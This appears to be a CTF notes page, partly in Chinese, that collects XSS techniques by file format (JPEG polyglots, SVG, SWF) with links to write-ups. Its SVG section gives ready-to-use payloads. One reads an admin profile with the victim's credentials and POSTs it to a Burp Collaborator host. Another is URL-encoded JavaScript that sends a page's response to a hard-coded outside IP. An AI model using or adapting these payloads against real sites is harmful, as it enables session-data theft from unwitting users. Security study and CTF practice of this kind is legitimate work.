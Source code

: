 ### jpg
https://portswigger.net/blog/bypassing-csp-using-polyglot-jpegs
https://www.aperikube.fr/docs/tjctf_2018/stupid_blog/#tl-dr

### SVG
**CTF**
[CONFidence CTF 2019](http://yulige.top/?p=665)
payload
```javascript
<?xml version="1.0" encoding="UTF-8"?> 
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" id="Layer_1" x="0px" y="0px" width="100px" height="100px" viewBox="-12.5 -12.5 100 100" xml:space="preserve"> 
  <g>
    <polygon fill="#00B0D9" points="41.5,40 38.7,39.2 38.7,47.1 41.5,47.1 ">
    </polygon>
    <script>
      var xhr = new XMLHttpRequest();
      xhr.onreadystatechange = function() {
        if (xhr.readyState === 4) {
          var xhr2 = new XMLHttpRequest();
          xhr2.open("POST", "http://XXXX.burpcollaborator.net/");
          xhr2.send(xhr.responseText);
        }
      }   
      xhr.open("GET", "http://web50.zajebistyc.tf/profile/admin");
      xhr.withCredentials = true;
      xhr.send();
      alert(1);
    </script>
  </g>
</svg>
```
[0CTF 2017 Quals](https://ctftime.org/writeup/5956) [simplexss](https://www.40huo.cn/blog/0ctf-2017-writeup.html)
题目利用svg或者link标签引用加载外部url的方式执行js代码，利用XMLHttpRequest发送请求，要考虑CORS方面的问题，设置头，以及协议是否相同。
```javscript
简化后
<svg onload=location=name>"
<script>
window.name = "javascript:%76%61%72%20%78%68%72%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%0a%78%68%72%2e%6f%70%65%6e%28%27%47%45%54%27%2c%20%27%68%74%74%70%3a%2f%2f%31%32%30%2e%37%37%2e%32%31%39%2e%32%31%3a%38%30%27%2c%20%66%61%6c%73%65%29%3b%0a%78%68%72%2e%73%65%6e%64%28%29%3b%0a%69%66%20%28%78%68%72%2e%73%74%61%74%75%73%20%3d%3d%20%32%30%30%29%20%7b%0a%20%20%6c%6f%63%61%74%69%6f%6e%3d%27%68%74%74%70%3a%2f%2f%31%32%30%2e%37%37%2e%32%31%39%2e%32%31%3a%38%31%3f%72%65%73%75%6c%74%3d%27%2b%78%68%72%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%3b%0a%7d";
</script>
```
这里值得学习的就是利用了 `onload=locationn=name`

### SWF
参考：https://medium.com/@friendly_/xss-through-swf-file-4f04af7b0f59
